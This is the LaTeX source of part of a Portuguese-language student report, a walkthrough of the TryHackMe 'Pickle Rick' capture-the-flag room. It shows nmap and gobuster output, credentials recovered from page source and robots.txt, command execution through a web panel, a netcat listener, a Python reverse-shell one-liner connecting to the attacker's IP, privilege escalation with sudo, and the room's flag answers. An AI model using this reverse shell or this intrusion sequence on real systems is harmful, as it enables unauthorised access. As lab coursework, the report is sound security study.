    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_06_54_26.png}
    \centering
    \caption{Tarefa Finalizada}
\end{figure}

\newpage

\subsection{Pickle Rick Room }

\url{https://tryhackme.com/room/picklerick}

 \begin{verbatim}
nmap -sC -sV -oN nmapPickle.txt 10.10.34.221
\end{verbatim}

\begin{lstlisting}
# Nmap 7.91 scan initiated Wed Jul 14 09:00:17 2021 as: nmap -sC -sV -oN nmapPickle.txt 10.10.34.221
Nmap scan report for 10.10.34.221
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6f:b0:e9:b2:45:cb:1e:31:87:22:b3:3e:a8:ee:d7:1f (RSA)
|   256 a1:b8:a3:2f:f0:43:49:db:3a:5f:29:a0:51:b5:1b:5c (ECDSA)
|_  256 45:c6:5e:7e:48:28:33:b6:71:53:23:4b:30:0d:06:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 14 09:00:27 2021 -- 1 IP address (1 host up) scanned in 10.39 seconds
\end{lstlisting}


2 ports abertos: 80 e 22

\begin{lstlisting}

page source da pagina html do port 80:
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
\end{lstlisting}


-------GoBuster and DirDirectory------
 \begin{verbatim}

gobuster -u http://10.10.34.221/ dir 
-w /home/kali/Desktop/SI/node-dirbuster/lists/directory-list-2.3-medium.txt 
-x php,sh,txt,html,js,css,py 
\end{verbatim}

\begin{lstlisting}

/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 313] [--> http://10.10.34.221/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]   
/robots.txt           (Status: 200) [Size: 17]  
\end{lstlisting}

 \begin{verbatim}

robots.txt ----> Wubbalubbadubdub


Portal Login Credentials:
User ---> R1ckRul3s
Pass ---> Wubbalubbadubdub
\end{verbatim}


/portal.php ---> command panel

\begin{figure}[h]
    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_09_23_22.png}
    \centering
    \caption{portal.php}
\end{figure}
 \begin{verbatim}


cat e nano estao desabilitados

grep funciona ---> grep -R . ---> page source
\end{verbatim}



\begin{lstlisting}

Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
clue.txt:Look around the file system for the other ingredient.

<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkU
xV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
\end{lstlisting}

What is the first ingredient Rick needs?:mr. meeseek hair

 \begin{verbatim}

"cat", "head", "more", "tail", "nano", "vim", "vi" nao est\ao disponiveis

echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVk
UxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWT
VVWaGVqQT0== | base64 -d | base64 -d | base64 -d |
base64 -d | base64 -d | base64 -d |
base64 -d  ----> rabbit hole                                                                               

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

ip addr show tun0
       
nc -lnvp 9999    

command painel:
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.9.46.242",9999));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
\end{verbatim}


\begin{figure}[h]
    
\includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_10_02_20.png}
    \centering
    \caption{Reverse Shell}
\end{figure}
 \begin{verbatim}

usar o linpeas para descobrir vunerabilidades

sudo bash 

ler o conteudo dos ficheiros

cat 3rd.txt --> fleeb juice

Whats the final ingredient Rick needs?: fleeb juice

Whats the second ingredient Rick needs?: 1 jerry tear
\end{verbatim}

% -------------------------------------------------------------------------------------------
\section{Conclusão}

\hspace{0.5cm}Em suma, com a realização deste trabalho conseguimos  perceber a importância das distribuições linux para segurança, que permitem tenhamos um sistema pronto a realizar testes de segurança sem ser necessário configurar o sistema para isso.

Saliento também que neste trabalho aplicámos todo o conhecimento que adquirimos durante as aulas e com a realização do trabalho teórico o que nos ajudou a compreender alguns pontos que não tínhamos entendido tão bem.
% -------------------------------------------------------------------------------------------
\end{document}